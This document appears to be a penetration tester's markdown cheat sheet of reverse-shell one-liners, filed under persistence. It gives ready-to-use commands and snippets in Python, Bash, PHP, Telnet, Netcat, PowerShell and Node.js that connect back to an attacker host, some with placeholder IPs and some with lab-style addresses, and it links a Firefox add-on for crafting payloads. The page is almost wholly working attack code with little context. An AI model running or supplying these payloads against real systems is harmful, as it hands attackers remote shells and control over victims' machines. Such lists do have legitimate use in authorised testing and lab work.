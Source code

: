 ```yaml
---
description: >-
  Reverse Shells
title:  Reverse Shells              # Add title here
date: 2023-02-11 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence,  Reverse Shells]                     # Change Templates to Writeup
tags: [persistence, reverse shell]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Python
```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_IP>",<attacker_PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Bash
```bash
/bin/bash -c 'bash -i >& /dev/tcp/<attacker_IP>/<attacker_PORT> 0>&1'
```

### PHP
```php
# Example 1
<?php system("bash -c 'bash -i >& /dev/tcp/10.10.14.3/443 0>&1'");?>
# Example 2
php -r '$sock=fsockopen(“<attacker_IP>”,<attacker_PORT>); exec(“/bin/sh -I
<&3 >&3 2>&3”);'
```
Example:
[[Fulcrum#^e70b79]]

### Telnet
```bash
telnet <attacker_IP> 4444 | /bin/bash | telnet <attacker_IP> 4445
```

### Netcat
```bash
nc <attacker_IP> <attacker_PORT> -e /bin/sh
```

### Netcat w/o “-e” option
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -I 2>&1 | nc <attacker_IP> <attacker_PORT> > /tmp/f
```

### Powershell
```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("192.1",4242);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
[[Fulcrum#^8c91ea]]

### Node JS
```bash
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(443, "10.10.14.2", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();
```

### Firefox Plugin
An excellent plugin to craft different payloads as Reverse Shells directly from firefox:
[hacktools](https://addons.mozilla.org/es/firefox/addon/hacktools/)

